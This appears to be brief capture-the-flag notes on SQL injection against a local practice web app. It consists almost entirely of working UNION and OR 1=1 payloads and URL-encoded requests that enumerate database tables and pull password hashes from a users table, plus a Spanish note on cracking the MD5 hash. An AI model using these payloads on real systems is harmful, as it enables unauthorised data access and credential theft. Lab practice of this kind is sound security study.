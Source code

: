 1 UNION SELECT null, table_name FROM information_schema.tables
http://localhost:8080/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#


1 OR 1=1
1 OR EXISTS (SELECT * FROM users)
http://localhost:8080/index.php?page=member&id=1+OR+EXISTS+%28SELECT+*+FROM+users+%29%3B+--+&Submit=Submit#

http://localhost:8080/index.php?page=member&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
1 UNION SELECT table_name, column_name FROM information_schema.columns

User table contains the following columns: user_id, first_name, last_name, town, country, planet, Commentaire, countersign.

1 OR 1=1 UNION SELECT Commentaire, countersign from users
desencriptar con md5 la clave hacer lowercase y encriptar con sha256

